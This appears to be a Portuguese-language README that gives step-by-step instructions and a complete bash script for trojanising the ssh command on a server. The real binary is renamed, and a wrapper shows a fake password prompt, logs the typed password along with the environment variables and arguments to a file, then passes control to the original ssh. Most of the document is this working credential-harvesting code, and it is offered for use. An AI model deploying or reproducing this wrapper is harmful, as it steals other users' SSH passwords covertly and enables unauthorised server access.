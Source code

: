 Uma forma simples de obter credenciais para acessar servidores via ssh sem utilizar binários modificados

1 - Binário original do ssh deverá ser renomeado, como pode exemplo de `/usr/bin/ssh`para `/usr/bin/ssh7`
2 - Deverá ser criado um script em bash chamado ssh que irá salvar as variáveis de ambiente e criar um input fake pedindo a senha e depois chamar o binário do ssh

Script bash
```bash
#!/bin/bash

OUTFILE=/home/mksx/env-dump/ssh/`date +"%d-%m-%Y-%H-%M-%S.txt"`

if echo $@ | grep -q ' -i '; then
        env > $OUTFILE
        echo "ssh $@" >> $OUTFILE
        unset $OUTFILE
        ssh7 $@
        exit
fi

while true; do
        echo -n "Password: "
        read -sr SSH_PASS
        if [ -z "$SSH_PASS" ]; then
                echo ''
                continue
        else
                break
        fi
done

env > $OUTFILE

echo "ssh $@ ($SSH_PASS)" >> $OUTFILE

unset $OUTFILE
unset $SSH_PASS

ssh7 $@
ssh7 $@
```

### Observação
 1 - Alteração poderá quebrar o uso do sshpass
 2 - Alteração poderá quebrar scripts que utilização expect
 3 - Caso a senha digitada esteja incorreta, a senha correta que será digitada novamente não será salva

